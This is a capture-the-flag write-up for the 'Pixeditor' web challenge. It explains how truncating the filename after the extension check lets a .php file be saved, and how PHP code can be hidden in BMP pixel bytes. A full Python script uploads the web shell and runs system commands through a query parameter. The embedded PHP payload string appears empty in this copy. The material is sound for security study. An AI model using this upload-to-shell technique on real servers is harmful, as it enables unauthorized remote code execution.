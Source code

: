 # Pixeditor (Web)

In the task we get access to a web-based picture editor.  
We can draw a small image by setting pixel colors and then save it on the
server as JPG, PNG, BMP or GIF under given filename.

There is a check for the file extension when saving the file, however the name
is truncated to 50 characters after the extension check.  
So we can use name ending with `.png` to pass the check, but if the name is
too long, this extension will be cut.  
Using this trick we can save a `.php` file by using name in format
`'x'*46+'.php.png`.

Now we would like to place some PHP code inside the file, but we can only draw
some pixels.  
Fortunately PHP interpreters are permissive, and they will execute anything
which looks like valid PHP code.  
So we can have some random bytes before and after PHP code in the file, and it
will still work.

We need to paint a picture where bytes will create code we want.  
The easiest option is to use BMP because pixels simply go into the file
directly as BGR color values.  
Web editor includes also alpha channel, so we actually have 32x32x4 bytes, and
we want to skip every 4th byte, because it won't appear in the output file.  
Also the bytes in BMP are inverted, because the web editor format is RGBA and
BMP has BGR.

The solution is to split the payload `` into 3-bytes long chunks, and place
then in consecutive picture pixels inverted:

```python  
import re  
import requests  
from crypto_commons.generic import chunk

def shell(url):  
   while True:  
       b = raw_input("> ")  
       print(requests.get(url + "?a=system&b=" + b).text[3030:])

def pad(plain):  
   missing = 3 - len(plain) % 3  
   return plain + (" " * missing)

def create_shell(main_url):  
   data = [1 for _ in range(32 * 32 * 4)]  
   index = 0  
   for c in chunk(pad(""), 3):  
       data[index + 2] = ord(c[0])  # R  
       data[index + 1] = ord(c[1])  # G  
       data[index] = ord(c[2])  # B  
       index += 4  
   url = main_url + "save.php"  
   name = "A" * 46 + ".php"  
   r = requests.post(url, data={"data": str(data), "name": name + ".JPG",
"format": "BMP"})  
   link = re.findall("Download", r.text)[0]  
   return link

def main():  
   main_url = "http://pixeditor.challs.malice.fr/"  
   link = create_shell(main_url)  
   print(main_url + link)  
   shell(main_url + link)

main()  
```

With such shell we can just find the flag in `/` and cat it to get
`NDH{Msp4int.3x3>all>th3g1mp}`  

Original writeup (https://github.com/p4-team/ctf/tree/master/2018-03-30-nuit-
du-hack/web_pixeditor).